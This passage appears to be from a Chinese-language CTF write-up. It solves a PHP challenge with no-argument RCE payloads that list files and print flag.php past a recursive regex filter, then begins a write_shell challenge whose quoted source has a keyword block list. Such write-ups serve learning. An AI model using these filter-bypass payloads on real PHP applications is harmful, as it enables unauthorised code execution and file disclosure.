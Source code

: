 ```php
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

第一个if过滤了直接读写，第三个if过滤了几个函数，主要是第二个if，看不懂...
参考别人的WP

> (?R)是引用当前表达式，(?R)? 这里多一个?表示可以有引用，也可以没有。，引用一次正则则变成了[a-z,_]+\([a-z,_]+\((?R)?\)\),可以迭代下去，那么它所匹配的就是print(echo(1))、a(b(c()));类似这种可以括号和字符组成的，这其实是无参数RCE比较典型的例子

无参数RCE做过很多次了

```php
看flag位置
var_dump(scandir(pos(localeconv())));
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" }
读flag
show_source(next(array_reverse(scandir(pos(localeconv())))));
```



### [红明谷CTF 2021]write_shell



很简单的命令执行绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
```